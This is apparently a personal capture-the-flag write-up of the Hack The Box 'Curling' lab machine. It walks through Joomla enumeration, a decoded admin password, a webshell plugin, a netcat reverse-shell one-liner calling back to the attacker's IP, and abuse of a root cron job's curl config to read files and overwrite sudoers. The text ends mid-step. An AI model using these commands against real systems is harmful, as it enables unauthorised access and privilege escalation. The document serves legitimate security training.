




---
tags:
  - joomla
group: Linux
---


- Machine : https://app.hackthebox.com/machines/Curling
- Reference : https://0xdf.gitlab.io/2019/03/30/htb-curling.html
- Solved : 2024.1.3. (Fri) (Takes 2days)

## Summary
---

1. **Initial Enumeration**
    - **Open Ports**: Identified ports 22 (SSH) and 80 (HTTP) open on the target machine.
    - **HTTP Service**: Found the web server running Joomla CMS with the title hinting at the use of the `cewl` tool.
    
2. **Credential Discovery**
    - Used `cewl` to generate a wordlist of potential usernames.
    - Decoded a base64-encoded string (`Curling2018!`) from the website's source code.
    - Combined the decoded password with the username `floris` (found on the main page) to successfully log in to the Joomla administrator panel.
    
3. **Shell as `www-data`**
    - Exploited the Joomla admin panel by uploading a malicious plugin.
    - Used the plugin to obtain a reverse shell as the `www-data` user.
    
4. **Shell as `floris`**
    - Found a file named `password_backup` in `/home/floris`, which was a bzip2-compressed file.
    - Decompressed and extracted a password (`5d<wdCbdZu)|hChXll`) using a series of unarchiving steps.
    - Used the extracted password to SSH into the system as `floris`.
    
5. **Privilege Escalation to Root**
    - Enumerated `/home/floris/admin-area` and found an automated script running with `root` privileges that used `curl -K` with the `input` file.
    - Modified the `input` file to exploit the `curl` command:
        - Redirected the output to create a readable copy of sensitive files (e.g., `/etc/passwd`).
        - Overwrote `/etc/sudoers` to allow `floris` to execute commands as `root`.
        
1. **Root Shell**
    - Used the modified `/etc/sudoers` to execute `sudo su -` and gained a root shell.

### Key Techniques:

- **Web Enumeration**: Identified Joomla CMS and extracted base64-encoded credentials from the webpage source.
- **Credential Discovery**: Used `cewl` for usernames and combined with decoded password to access Joomla admin.
- **Remote Code Execution**: Uploaded a malicious Joomla plugin to gain a shell as `www-data`.
- **File Analysis**: Decompressed and analyzed `password_backup` to retrieve SSH credentials for `floris`.
- **Cron Exploitation**: Modified input to a root-level `curl` command to read files or overwrite `/etc/sudoers`.
- **Privilege Escalation**: Granted `sudo` rights to `floris` for root access.

---

# Reconnaissance

### Port Scanning

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ./port-scan.sh 10.10.10.150
Performing quick port scan on 10.10.10.150...
Found open ports: 22,80,5378,20918,25618,26926,30478,35706,49111,51827
Performing detailed scan on 10.10.10.150...
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-02 10:17 EST
Nmap scan report for 10.10.10.150
Host is up (0.13s latency).

PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp    open   http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.83 seconds
```

- Only 2 ports are open : ssh(22), http(80)
- The http service seems to run on `Joomla` CMS.

### http(80)



The title includes `cewl` which is a tool for extracting wordlist from a website.
Let's run `cewl`.


# Joomla login as `floris`

### Find credential

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cewl http://10.10.10.150 > usernames.txt
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ wc -l usernames.txt 
219 usernames.txt
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ head usernames.txt 
CeWL 6.2.1 (More Fixes) Robin Wood (robin@digi.ninja) (https://digi.ninja/)
the
curling
Curling
site
you
and
are
Print
for
```

On its source code, it's giving us hints that the server is running on `Joomla`.

```xml
<meta name="generator" content="Joomla! - Open Source Content Management" />
	<title>Home</title>
	<link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
	<link href="/index.php?format=feed&amp;type=atom" rel="alternate" type="application/atom+xml" title="Atom 1.0" />
	<link href="/templates/protostar/favicon.ico" rel="shortcut icon" type="image/vnd.microsoft.icon" />
	<link href="/templates/protostar/css/template.css?b6bf078482bc6a711b54fa9e74e19603" rel="stylesheet" />
	<link href="https://fonts.googleapis.com/css?family=Open+Sans" rel="stylesheet" />
	<style>

	h1, h2, h3, h4, h5, h6, .site-title {
		font-family: 'Open Sans', sans-serif;
	}
	</style>
	<script type="application/json" class="joomla-script-options new">{"csrf.token":"0f3b77613c1a3ef0fee8cdf3358eb388","system.paths":{"root":"","base":""},"system.keepalive":{"interval":840000,"uri":"\/index.php\/component\/ajax\/?format=json"}}</script>
```

Also, on its end, there's a comment like this;

```xml
			<p class="pull-right">
				<a href="#top" id="back-top">
					Back to Top				</a>
			</p>
			<p>
				&copy; 2025 Cewl Curling site!			</p>
		</div>
	</footer>
	
</body>
      <!-- secret.txt -->
</html>
```

I tried to visit `secret.txt`.



There's a text : `Q3VybGluZzIwMTgh`
It looks like a base64-encoded message. Let's decode it.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ echo 'Q3VybGluZzIwMTgh' | base64 -d
Curling2018!
```

The decoded message is `Curling2018!`.
I think this might be useful somewhere.
It might be matched with one of the username that we found with `cewl`.

Let's do the common `Joomla` enumeration.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.10.150/administrator/manifests/files/joomla.xml
<?xml version="1.0" encoding="UTF-8"?>
<extension version="3.6" type="file" method="upgrade">
        <name>files_joomla</name>
        <author>Joomla! Project</author>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <copyright>(C) 2005 - 2018 Open Source Matters. All rights reserved</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <version>3.8.8</version>
        <creationDate>May 2018</creationDate>
        <description>FILES_JOOMLA_XML_DESCRIPTION</description>

        <scriptfile>administrator/components/com_admin/script.php</scriptfile>

        <update>
                <schemas>
                        <schemapath type="mysql">administrator/components/com_admin/sql/updates/mysql</schemapath>
                        <schemapath type="sqlsrv">administrator/components/com_admin/sql/updates/sqlazure</schemapath>
                        <schemapath type="sqlazure">administrator/components/com_admin/sql/updates/sqlazure</schemapath>
                        <schemapath type="postgresql">administrator/components/com_admin/sql/updates/postgresql</schemapath>
                </schemas>
        </update>

        <fileset>
                <files>
                        <folder>administrator</folder>
                        <folder>bin</folder>
                        <folder>cache</folder>
                        <folder>cli</folder>
                        <folder>components</folder>
                        <folder>images</folder>
                        <folder>includes</folder>
                        <folder>language</folder>
                        <folder>layouts</folder>
                        <folder>libraries</folder>
                        <folder>media</folder>
                        <folder>modules</folder>
                        <folder>plugins</folder>
                        <folder>templates</folder>
                        <folder>tmp</folder>
                        <file>htaccess.txt</file>
                        <file>web.config.txt</file>
                        <file>LICENSE.txt</file>
                        <file>README.txt</file>
                        <file>index.php</file>
                </files>
        </fileset>

        <updateservers>
                <server name="Joomla! Core" type="collection">https://update.joomla.org/core/list.xml</server>
        </updateservers>
</extension>
```

```bash
┌──(kali㉿kali)-[~/htb]
└─$ curl http://10.10.10.150/plugins/system/cache/cache.xml          
<?xml version="1.0" encoding="utf-8"?>
<extension version="3.1" type="plugin" group="system" method="upgrade">
        <name>plg_system_cache</name>
        <author>Joomla! Project</author>
        <creationDate>February 2007</creationDate>
        <copyright>Copyright (C) 2005 - 2018 Open Source Matters. All rights reserved.</copyright>
        <license>GNU General Public License version 2 or later; see LICENSE.txt</license>
        <authorEmail>admin@joomla.org</authorEmail>
        <authorUrl>www.joomla.org</authorUrl>
        <version>3.0.0</version>
        <description>PLG_CACHE_XML_DESCRIPTION</description>
        <files>
                <filename plugin="cache">cache.php</filename>
        </files>
        <languages>
                <language tag="en-GB">en-GB.plg_system_cache.ini</language>
                <language tag="en-GB">en-GB.plg_system_cache.sys.ini</language>
        </languages>
        <config>
                <fields name="params">
                        <fieldset name="basic">
                                <field
                                        name="browsercache"
                                        type="radio"
                                        label="PLG_CACHE_FIELD_BROWSERCACHE_LABEL"
                                        description="PLG_CACHE_FIELD_BROWSERCACHE_DESC"
                                        class="btn-group btn-group-yesno"
                                        default="0"
                                        >
                                        <option value="1">JYES</option>
                                        <option value="0">JNO</option>
                                </field>

                                <field
                                        name="exclude_menu_items"
                                        type="menuitem"
                                        label="PLG_CACHE_FIELD_EXCLUDE_MENU_ITEMS_LABEL"
                                        description="PLG_CACHE_FIELD_EXCLUDE_MENU_ITEMS_DESC"
                                        default=""
                                        multiple="multiple"
                                />

                        </fieldset>
                        <fieldset name="advanced">
                                <field
                                        name="exclude"
                                        type="textarea"
                                        label="PLG_CACHE_FIELD_EXCLUDE_LABEL"
                                        description="PLG_CACHE_FIELD_EXCLUDE_DESC"
                                        class="input-xxlarge"
                                        rows="15"
                                        filter="raw"
                                        default=""
                                />

                        </fieldset>
                </fields>
        </config>
</extension>
```

Let's run `joomscan`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ joomscan -u http://10.10.10.150
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://10.10.10.150 ...

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.8.8

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking Directory Listing
[++] directory has directory listing : 
http://10.10.10.150/administrator/components
http://10.10.10.150/administrator/modules
http://10.10.10.150/administrator/templates
http://10.10.10.150/images/banners

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://10.10.10.150/administrator/

[+] Checking robots.txt existing
[++] robots.txt is not found

[+] Finding common backup files name                                       
[++] Backup files are not found                                            

[+] Finding common log files name                                          
[++] error log is not found                                                

[+] Checking sensitive config.php.x file                                   
[++] Readable config files are not found                                   

Your Report : reports/10.10.10.150/  
```

Let's try sign-in to `/administrator` page.
I'll use the output from `cewl`, and password found(`curling2018!`).

```markdown
┌──(kali㉿kali)-[~/htb]
└─$ wfuzz -w usernames.txt -d 'username=FUZZ&passwd=curling2018%21&option=com_login&task=login&return=aW5kZXgucGhw&0cf42eaaa2e368addf159fe402aba5ba=1' http://10.10.10.150/administrator/index.php
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.150/administrator/index.php
Total requests: 218

=====================================================================
ID           Response   Lines    Word       Chars       Payload   
=====================================================================

000000001:   303        0 L      0 W        0 Ch        "the"     
000000003:   303        0 L      0 W        0 Ch        "Curling" 
000000007:   303        0 L      0 W        0 Ch        "are"     
000000015:   303        0 L      0 W        0 Ch        "first"   
000000044:   303        0 L      0 W        0 Ch        "can"     
000000045:   303        0 L      0 W        0 Ch        "feet"   
<SNIP>
```

Unfortunately, none of the username worked.
Instead,  I found one username(`floris`) on the main page.


Let me first check if the username exists in the wordlist.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ grep floris usernames.txt
```

It's not in the list, so it worths to try... And it works!




# Shell as `www-data`

### Upload plugin

There are two methodologies are available when we have an access to joomla admin panel.



Let's try "Webshell Plugin" method this time.

I downloaded repository from : 
https://github.com/p0dalirius/Joomla-webshell-plugin.git

The detailed procedure will not be explained as it's repeated in [DEVVORTEX](../Devvortex/DEVVORTEX.md).
It worked, and I got a shell as `www-data`.

```bash
┌──(kali㉿kali)-[~/htb/Joomla-webshell-plugin]
└─$ python console.py -t http://10.10.10.150
[webshell]> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
[webshell]> ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.150  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:fe94:7aa2  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:fe94:7aa2  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:94:7a:a2  txqueuelen 1000  (Ethernet)
        RX packets 82598  bytes 6471127 (6.4 MB)
        RX errors 0  dropped 35  overruns 0  frame 0
        TX packets 80116  bytes 7762759 (7.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 46304  bytes 7195180 (7.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 46304  bytes 7195180 (7.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

I immediately opened a reverse shell to make it more interactive.

```shell
(target)
[webshell]> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9000 >/tmp/f

(kali)
┌──(kali㉿kali)-[~/htb]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.150] 52466
/bin/sh: 0: can't access tty; job control turned off
$
```


# Shell as `floris`??

### Enumeration

Since I eventually need to privesc to `floris`, let's check its home directory.

```bash
www-data@curling:/home/floris$ ls -al
ls -al
total 44
drwxr-xr-x 6 floris floris 4096 Aug  2  2022 .
drwxr-xr-x 3 root   root   4096 Aug  2  2022 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 Aug  2  2022 .cache
drwx------ 3 floris floris 4096 Aug  2  2022 .gnupg
drwxrwxr-x 3 floris floris 4096 Aug  2  2022 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 Aug  2  2022 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 Jan  2 15:14 user.txt
```

Apart from the user flag, there are some other files : `password_backup`, `/admin-area`
The name `password_backup` is suspicious, and the directory `/admin-area` is owned by `root` which is not normal.

Let's read `password_backup` first.

```yaml
www-data@curling:/home/floris$ cat password_backup
cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
```

This looks like an `xxd` output. I can convert it back to `.bz2` file.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ cat password_backup_orig                   
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H


┌──(kali㉿kali)-[~/htb]
└─$ xxd -r password_backup_orig > password_backup.bz2


┌──(kali㉿kali)-[~/htb]
└─$ file password_backup.bz2
password_backup.bz2: bzip2 compressed data, block size = 900k
```

Let's decompress it using `bunzip2`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ bunzip2 -k password_backup.bz2 


┌──(kali㉿kali)-[~/htb]
└─$ ls password_backup*
password_backup  password_backup.bz2  password_backup_orig


┌──(kali㉿kali)-[~/htb]
└─$ file password_backup    
password_backup: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141


┌──(kali㉿kali)-[~/htb]
└─$ mv password_backup password_backup.gz 


┌──(kali㉿kali)-[~/htb]
└─$ ls password_backup*
password_backup  password_backup.bz2  password_backup.gz  password_backup_orig


┌──(kali㉿kali)-[~/htb]
└─$ gunzip -k password_backup.gz 


┌──(kali㉿kali)-[~/htb]
└─$ cat password_backup
BZh91AY&SY6Ǎ����@@!PtD�� t"d�hhOPIS@��6��8ET>P@�#I bՃ|3��x���������(*N�&�H��k1��x��"�{��ೱ��]��B@�6  


┌──(kali㉿kali)-[~/htb]
└─$ file password_backup
password_backup: bzip2 compressed data, block size = 900k


┌──(kali㉿kali)-[~/htb]
└─$ mv password_backup password_backup2.bz2


┌──(kali㉿kali)-[~/htb]
└─$ bunzip2 -k password_backup2.bz2 


┌──(kali㉿kali)-[~/htb]
└─$ ls password_backup*
password_backup.bz2  password_backup2      password_backup_orig
password_backup.gz   password_backup2.bz2


┌──(kali㉿kali)-[~/htb]
└─$ file password_backup2
password_backup2: POSIX tar archive (GNU)


┌──(kali㉿kali)-[~/htb]
└─$ mv password_backup2 password_backup.tar


┌──(kali㉿kali)-[~/htb]
└─$ tar -xvf password_backup.tar                            
password.txt


┌──(kali㉿kali)-[~/htb]
└─$ cat password.txt
5d<wdCbdZu)|hChXll
```

Let's try `ssh` connection as `floris`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ ssh floris@10.10.10.150
floris@10.10.10.150's password: 
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-156-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan  2 20:12:21 UTC 2025

  System load:  0.01              Processes:            176
  Usage of /:   62.3% of 3.87GB   Users logged in:      0
  Memory usage: 21%               IP address for ens33: 10.10.10.150
  Swap usage:   0%


0 updates can be applied immediately.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.


Last login: Wed Sep  8 11:42:07 2021 from 10.10.14.15
floris@curling:~$ id
uid=1000(floris) gid=1004(floris) groups=1004(floris)
```

I got a shell!


# Shell as `root`

### Enumeration

Let's investigate `/admin-area` first.

```bash
floris@curling:~$ ls -l
total 12
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt


floris@curling:~/admin-area$ ls 
input  report


floris@curling:~/admin-area$ cat input url = "http://127.0.0.1" floris@curling:~/admin-area$ head report <!DOCTYPE html> <html lang="en-gb" dir="ltr"> <head> <meta name="viewport" content="width=device-width, initial-scale=1.0" /> <meta charset="utf-8" /> <base href="http://127.0.0.1/" /> <meta name="description" content="best curling site on the planet!" /> <meta name="generator" content="Joomla! - Open Source Content Management" /> <title>Home</title> <link href="/index.php?format=feed&amp;type=rss" rel="alternate" type="application/rss+xml" title="RSS 2.0" />
```

The best approach to enumerate linux system is either `linpeas` or `pspy`.

Let's run `linpeas` to observe if there's anything useful.

```bash
floris@curling:/tmp$ ./linpeas_linux_amd64


╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                       
Sudo version 1.8.21p2   

<SNIP>
```

Nothing really useful was found.

Instead, given the existing file in `/admin-area` `input`, and `output`, I think it has to do with some process running or run regularily.
Let's check it with `pspy`.

```bash
floris@curling:/tmp$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     


2025/01/02 21:50:22 CMD: UID=1000  PID=32569  | ./pspy64 
2025/01/02 21:50:22 CMD: UID=0     PID=32474  | 
2025/01/02 21:50:22 CMD: UID=0     PID=32369  | 
2025/01/02 21:50:22 CMD: UID=0     PID=32318  | 
2025/01/02 21:50:22 CMD: UID=0     PID=32241  | 
2025/01/02 21:50:22 CMD: UID=1000  PID=14486  | /usr/bin/gpg-agent --supervised                                                                         
2025/01/02 21:50:22 CMD: UID=1000  PID=5106   | -bash 
2025/01/02 21:50:22 CMD: UID=1000  PID=5104   | sshd: floris@pts/1   
2025/01/02 21:50:22 CMD: UID=1000  PID=4985   | (sd-pam) 
2025/01/02 21:50:22 CMD: UID=1000  PID=4976   | /lib/systemd/systemd --user 
2025/01/02 21:50:22 CMD: UID=0     PID=4973   | sshd: floris [priv]  
2025/01/02 21:50:22 CMD: UID=33    PID=4699   | /bin/bash 
2025/01/02 21:50:22 CMD: UID=33    PID=4698   | python3 -c import pty;pty.spawn("/bin/bash")                                                            
2025/01/02 21:50:22 CMD: UID=33    PID=4681   | nc 10.10.14.4 9000 
2025/01/02 21:50:22 CMD: UID=33    PID=4680   | /bin/sh -i 
2025/01/02 21:50:22 CMD: UID=33    PID=4679   | cat /tmp/f 
2025/01/02 21:50:22 CMD: UID=33    PID=4676   | sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 9000 >/tmp/f    

<SNIP>

2025/01/02 21:51:01 CMD: UID=0     PID=32581  | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report                                 
2025/01/02 21:51:01 CMD: UID=0     PID=32580  | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input                               
2025/01/02 21:51:01 CMD: UID=0     PID=32579  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report                      
2025/01/02 21:51:01 CMD: UID=0     PID=32578  | /usr/sbin/CRON -f 
2025/01/02 21:51:01 CMD: UID=0     PID=32577  | /usr/sbin/CRON -f 
2025/01/02 21:51:02 CMD: UID=0     PID=32583  | cat /root/default.txt 
```

Here I found some command lines run by `root` while working on the files in `/admin-area`.

### Exploit `curl` command

Here's the reference of using `-K` option :
https://curl.se/docs/manpage.html#-K

The naive approach is simply modifiying `input` file to read local file instead.

```bash
floris@curling:/home/floris/admin-area$ echo -e 'url = "file:///etc/passwd"' > input
```

However, I wasn't able to read the `/etc/passwd` from `output`. Based on `pspy64` output, I can guess that it's because the scheduled job runs `/bin/sh -c sleep; cat /root/default.txt > /home/floris/admin-area/input` ahead of `curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report`.

Instead, I can put `OUTPUT=` option in `input` to make it write output in different place.

```bash
